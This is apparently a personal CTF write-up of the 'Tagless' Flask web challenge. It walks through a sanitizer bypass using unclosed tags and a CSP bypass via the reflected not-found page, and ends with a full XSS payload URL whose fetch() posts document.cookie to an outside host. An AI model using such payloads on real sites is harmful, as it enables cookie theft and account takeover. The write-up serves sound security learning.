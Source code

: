 Only managed to solve 1 ):
# Tagless
This challenge was a web challenge involving flask. This was my first ctf where challenges needed to be launched and had a time limit, leading to some confusion when accessing the challenge instance. A good learning point from this was to always attempt to reproduce the challenge locally, if possible.
This challenge had 3 important endpoints:
`/`
* The index page, which seems to display whatever message you supply in an iframe
* ![[Pasted image 20240826210809.png]]
`/report`
*  Seems to get the bot to visit a localhost url
```python
@app.route("/report", methods=["POST"])  
def report():  
    bot = Bot()  
    url = request.form.get('url')  
    if url:  
        try:  
            parsed_url = urlparse(url)  
            print("visiting ", parsed_url)  
        except Exception:  
            return {"error": "Invalid URL."}, 400  
        if parsed_url.scheme not in ["http", "https"]:  
            return {"error": "Invalid scheme."}, 400  
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:  
            return {"error": "Invalid host."}, 401  
        bot.visit(url)  
        bot.close()  
        return {"visited":url}, 200  
    else:  
        return {"error":"URL parameter is missing!"}, 400
```
`/<anything else>`
*  Small yet important, it simply tells you the `url path` you supplied was not found
Next,  we need to find where the flag is stored. Searching around, you find this in `bot.py`
```python
class Bot:  
    def __init__(self):  
		...
    def visit(self, url):  
        self.driver.get("http://127.0.0.1:5000/")  
        self.driver.add_cookie({  
            "name": "flag",   
            "value": "SEKAI{dummy}",   
            "httponly": False    
		})   
		self.driver.get(url)  
        time.sleep(1)  
        self.driver.refresh()
```
This is where the `report` endpoint comes in handy, as it gets the bot to first visit and add a cookie to  itself, then open a corresponding url supplied. If we want any chance of stealing the cookie,  the url we visit must be the same url the cookie was added to (localhost). From there, we need some way to exfiltrate the cookie. 
Looking back at `/`, we  find that the js script linked to the file also takes the query parameter `auto_input` to fill up the iframe. This is valuable as it allows us to inject any html we wish just using the url, e.g. when using `/report`. However, It is also worth noting all input is sanitized by
```js
function sanitizeInput(str) {  
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, '');   
    return str;  
}
```
, which seems to strip all text that resembles html tags. What if we supplied an incomplete tag, and let the browser close it for us?
![[Pasted image 20240826212534.png]]
Simple, right? Now we can provide a script tag with its src pointing to our payload to extract the cookie. But nope. Unfortunately, all requests are given these pesky CSP headers, preventing both scripts from other urls and inline scripts from running
```python
@app.after_request  
def add_security_headers(resp):  
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"  
    return resp
```
We could have to find a way to get the script to fulfill this csp, which is where
the url not found page comes in handy. Since any unknown path is reflected back in the page content as text, we could use that as the source of the payload, without any CSP violation. 
![[Pasted image 20240826213241.png]]
This is still not valid js, so we need to mangle the url further
![[Pasted image 20240826213351.png]]
### Conclusion
We have this js:
```js
fetch('URL HERE', {body: document.cookie, method: 'POST'});
```
The url payload:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=http://127.0.0.1:5000/**/JS HERE//;`
We get the final url for `/report`:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=<script src="http://127.0.0.1:5000/**/fetch('***', {body: document.cookie, method: 'POST', mode:'no-cors'});//"//`
, giving us the flag.
> Notes:
> I should've used a get request to make my life easier. I have also discovered `Nagivator.sendBeacon()` which seems like a quick and easy way to do requests.
> Mixing `localhost` and `127.0.0.1` is not ideal, despite them both pointing to the same thing
